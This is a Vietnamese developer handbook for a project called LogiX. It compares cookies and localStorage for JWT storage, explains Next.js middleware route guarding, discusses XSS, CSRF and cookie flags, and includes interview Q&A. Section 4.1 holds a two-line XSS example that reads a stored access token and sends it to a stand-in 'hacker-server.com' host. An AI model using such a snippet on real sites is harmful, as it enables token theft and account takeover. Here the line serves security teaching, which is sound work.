

# 🍪 Cẩm Nang Chuyên Sâu: Cookies vs LocalStorage & Cơ Chế Middleware Authentication (Next.js & Express)

> **Tài liệu tham khảo & củng cố kiến thức nền tảng:** Phân tích bản chất kỹ thuật, sự khác biệt cốt lõi giữa **Cookies** và **LocalStorage**, cơ chế hoạt động của **Next.js Edge Middleware**, cùng kiến trúc xác thực lai (**Hybrid Authentication**) trong dự án LogiX.

---

## 📌 1. TỔNG QUAN & BẢN CHẤT CỐT LÕI

Khi xây dựng hệ thống đăng nhập (Authentication) bằng **JWT (JSON Web Token)**, câu hỏi quan trọng nhất luôn là: **"Sau khi Backend trả về Token, Frontend nên lưu Token ở đâu?"**

Trong thực tế phát triển phần mềm, có 2 vị trí lưu trữ phổ biến nhất:

```
                          ┌───────────────────────────┐
                          │   JWT TOKEN TỪ BACKEND    │
                          └─────────────┬─────────────┘
                                        │
                 ┌──────────────────────┴──────────────────────┐
                 ▼                                             ▼
       ┌──────────────────┐                          ┌───────────────────┐
       │     COOKIES      │                          │   LOCAL STORAGE   │
       └─────────┬────────┘                          └─────────┬─────────┘
                 │                                             │
      🌐 Tự động gửi kèm HTTP                       💻 Lưu trữ tĩnh tại Client
      ⚡ Đọc được ở Server & SSR                     🔒 Chỉ đọc được bằng JS (Browser)
      🛡️ Hỗ trợ cờ bảo mật HttpOnly                  🔑 Dùng gắn Bearer Authorization
```

---

## 🔍 2. SO SÁNH CHI TIẾT: COOKIES VS LOCALSTORAGE

| Tiêu chí | 🍪 Cookies | 💾 LocalStorage |
| :--- | :--- | :--- |
| **Vị trí lưu trữ** | Trình duyệt quản lý, gắn liền với từng Domain. | Bộ nhớ lưu trữ tĩnh của trình duyệt theo Domain. |
| **Cơ chế gửi dữ liệu** | **Tự động 100%:** Trình duyệt tự đính kèm vào Header `Cookie: ...` mỗi khi gửi request. | **Thủ công:** Phải viết code Javascript (Axios, Fetch) lấy ra và gán vào Header. |
| **Dung lượng tối đa** | ~ **4 KB** (Nhỏ, chỉ đủ cho token và sessionId). | ~ **5 MB** (Lớn, lưu được cả dữ liệu cache, user profile). |
| **Khả năng truy cập SSR** |  **Có.** Server, Edge Runtime, Next.js Middleware đọc được ngay. | ❌ **Không.** Server không có đối tượng `window` hay `localStorage`. |
| **Thời hạn sống (Lifespan)** | Tự cấu hình (`Max-Age`, `Expires`), hoặc mất khi đóng trình duyệt (Session Cookie). | Tồn tại vĩnh viễn cho đến khi bị xóa thủ công hoặc người dùng Clear Storage. |
| **Nguy cơ XSS** |  Nếu bật cờ **`HttpOnly`**, Javascript không đọc được -> **Miễn nhiễm với XSS lấy cắp Token**. | ⚠️ Rất nguy hiểm nếu web bị dính lỗi XSS (Hacker dùng `localStorage.getItem()` lấy trộm token). |
| **Nguy cơ CSRF** | ⚠️ Có thể bị lợi dụng gửi request tự động nếu không cấu hình `SameSite=Lax/Strict`. |  **Miễn nhiễm với CSRF** vì trình duyệt không tự động gửi `Authorization: Bearer`. |

---

## ⚡ 3. TẠI SAO NEXT.JS MIDDLEWARE BẮT BUỘC PHẢI DÙNG COOKIE?

### 3.1 Sự khác biệt giữa Server-Side (Edge) và Client-Side

Trong kiến trúc Next.js (App Router):
1. **Client-Side (Trình duyệt):** Chạy mã Javascript trên máy người dùng, có đầy đủ đối tượng `window`, `document`, `localStorage`, `sessionStorage`.
2. **Server-Side / Edge Runtime (Middleware):** Chạy trên Server của Next.js (Node.js hoặc V8 Edge Engine) **trước khi HTML được sinh ra và gửi về máy khách**. Tại đây:
   - ❌ `typeof window === 'undefined'`
   - ❌ `localStorage` không tồn tại -> Gọi `localStorage.getItem()` sẽ gây crash app.

### 3.2 Cơ chế Next.js Edge Middleware chặn Route

Khi người dùng gõ URL `http://localhost:3000/admin/roles`:



> [!IMPORTANT]
> **Hiện tượng Nháy Màn Hình (Flickering UI):**
> - Nếu chỉ dùng `localStorage` để bảo vệ route (kiểm tra ở `useEffect` phía Client): Người dùng sẽ thấy trang Admin load lên 0.5s rồi mới bị đá về trang Login.
> - Khi dùng **Cookie + Middleware ở Server**: Trang web được chuyển hướng ngay từ Server, người dùng không bao giờ nhìn thấy nội dung bị cấm dù chỉ 1 frame hình.

---

## 🛡️ 4. BẢO MẬT: XSS (Cross-Site Scripting) VS CSRF (Cross-Site Request Forgery)

### 4.1 Tấn công XSS là gì và LocalStorage bị tổn thương ra sao?

* **XSS:** Kẻ tấn công tiêm mã Javascript độc hại vào trang web (qua ô bình luận, form input không được escape).
* Nếu Token lưu trong `localStorage`:
  ```javascript
  // Đoạn mã độc hại của Hacker chạy ngầm:
  const stolenToken = localStorage.getItem('access_token');
  fetch('https://hacker-server.com/steal?token=' + stolenToken);
  ```
  -> **Hacker chiếm toàn quyền tài khoản của người dùng!**

### 4.2 Cờ bảo vệ Cookie chuyên nghiệp

Khi thiết lập Cookie cho Authentication, các cờ (Flags) sau đây là bắt buộc:

1. **`HttpOnly`**: Cấm hoàn toàn mã Javascript ở Client đọc giá trị của Cookie (`document.cookie` không thấy). **Vô hiệu hóa đòn tấn công XSS lấy cắp token**.
2. **`Secure`**: Chỉ cho phép truyền Cookie qua kết nối bảo mật HTTPS.
3. **`SameSite=Lax` / `SameSite=Strict`**: Ngăn trình duyệt tự động gửi Cookie khi request đến từ trang web của bên thứ 3 -> **Chống tấn công CSRF**.

---

## 🏗️ 5. MÔ HÌNH HYBRID TRONG DỰ ÁN LOGIX

Dự án LogiX kết hợp **sức mạnh của cả 2 phương thức**:

```
                              [ ĐĂNG NHẬP THÀNH CÔNG ]
                                          │
                  ┌───────────────────────┴───────────────────────┐
                  ▼                                               ▼
         LƯU VÀO COOKIE                                 LƯU VÀO LOCALSTORAGE
  (access_token)                                  (access_token & refresh_token)
                  │                                               │
                  ▼                                               ▼
  Dành cho Next.js Middleware                    Dành cho Axios Interceptor
  - Chạy trên Server / Edge                      - Chạy trên Browser Client
  - Đọc qua `request.cookies`                    - Gắn `Authorization: Bearer <token>`
  - Chặn vào trang cấm ngay từ Server            - Gọi API sang Backend Express (port 5000)
  - Không bị giật/nháy màn hình                  - Tự động Refresh Token khi gặp lỗi 401
```

### 5.1 Code Thực Tế Khi Đăng Nhập Thành Công

Trong `frontend/src/stores/auth.store.ts`:

```typescript
setUser: (user, permissions, accessToken, refreshToken) => {
  // 1. Lưu vào LocalStorage cho Axios gọi API Backend
  localStorage.setItem('access_token', accessToken)
  localStorage.setItem('refresh_token', refreshToken)

  // 2. Lưu vào Cookie cho Next.js Edge Middleware đọc ở Server
  document.cookie = `access_token=${accessToken}; path=/; max-age=${15 * 60}; SameSite=Lax`

  // 3. Lưu vào Zustand State + Persist để UI render
  set({ user, permissions, isAuthenticated: true })
}
```

### 5.2 Code Thực Tế Next.js Edge Middleware

Trong `frontend/middleware.ts`:

```typescript
import { NextResponse } from 'next/server'
import type { NextRequest } from 'next/server'

export function middleware(request: NextRequest) {
  // Đọc cookie trực tiếp từ Header HTTP trên Server
  const token = request.cookies.get('access_token')?.value
  const { pathname } = request.nextUrl

  // Nếu chưa đăng nhập mà cố vào trang quản trị /admin hoặc /lms
  if (!token && (pathname.startsWith('/admin') || pathname.startsWith('/lms'))) {
    const loginUrl = new URL('/login', request.url)
    loginUrl.searchParams.set('redirect', pathname)
    return NextResponse.redirect(loginUrl)
  }

  return NextResponse.next()
}
```

### 5.3 Code Thực Tế Axios Interceptor

Trong `frontend/src/lib/axios.ts`:

```typescript
// Gắn Bearer token vào mọi request API
api.interceptors.request.use((config) => {
  const token = localStorage.getItem('access_token')
  if (token) {
    config.headers.Authorization = `Bearer ${token}`
  }
  return config
})
```

---

## 🎯 6. CÂU HỎI PHỎNG VẤN THỰC CHIẾN (INTERVIEW Q&A)

### Q1: Có thể dùng LocalStorage để kiểm tra đăng nhập trong Next.js Middleware không?
> **Trả lời:** **Không thể.** Vì Next.js Middleware chạy ở môi trường Server/Edge runtime trước khi trang web tải về trình duyệt. Ở môi trường Server không có đối tượng `window` hay `localStorage`. Bắt buộc phải dùng **Cookies** vì Cookies tự động được đính kèm vào HTTP Header khi request gửi lên Server.

### Q2: Tại sao người ta nói lưu Token trong LocalStorage kém an toàn hơn HttpOnly Cookie?
> **Trả lời:** Vì bất kỳ đoạn mã Javascript nào chạy trên trình duyệt (kể cả mã độc từ thư viện bên thứ 3 bị hack hoặc lỗ hổng XSS) đều có thể dùng `localStorage.getItem('token')` để lấy trộm token. Trong khi đó, Cookie có cờ `HttpOnly` sẽ bị trình duyệt chặn hoàn toàn, Javascript không thể đọc được.

### Q3: Nếu HttpOnly Cookie an toàn hơn, tại sao nhiều dự án vẫn dùng Bearer Token + LocalStorage?
> **Trả lời:**
> 1. **Dễ dùng cho Đa nền tảng (Cross-platform):** Mobile App (React Native, Flutter) hoặc ứng dụng Desktop không có khái niệm Cookie trình duyệt tốt như Web, nhưng xử lý Header `Authorization: Bearer` rất mượt mà.
> 2. **Không lo dính lỗi CSRF:** Vì Token không tự động gửi kèm như Cookie, Hacker không thể lừa trình duyệt gửi request mạo danh.
> 3. **Phù hợp kiến trúc Microservices:** Token có thể dễ dàng chuyển tiếp (forward) giữa nhiều server API khác nhau.

---

## 📚 TÀI LIỆU LIÊN QUAN TRONG DỰ ÁN LOGIX

- [doc/07-workflow/Auth_and_RBAC_Workflow.md](file:///c:/Projects/DigiFnb/Practice/LogiX/doc/07-workflow/Auth_and_RBAC_Workflow.md) — Quy trình toàn diện về Login, JWT Lifecycle, và RBAC.
- [doc/03-tech-stack/RESTful_API_Core_Concepts_Handbook.md](file:///c:/Projects/DigiFnb/Practice/LogiX/doc/03-tech-stack/RESTful_API_Core_Concepts_Handbook.md) — Cẩm nang về HTTP Headers, Token, Status Codes.
- [doc/03-tech-stack/Swagger_OpenAPI_Config_Guide.md](file:///c:/Projects/DigiFnb/Practice/LogiX/doc/03-tech-stack/Swagger_OpenAPI_Config_Guide.md) — Hướng dẫn Authorize Bearer Token trên Swagger UI.
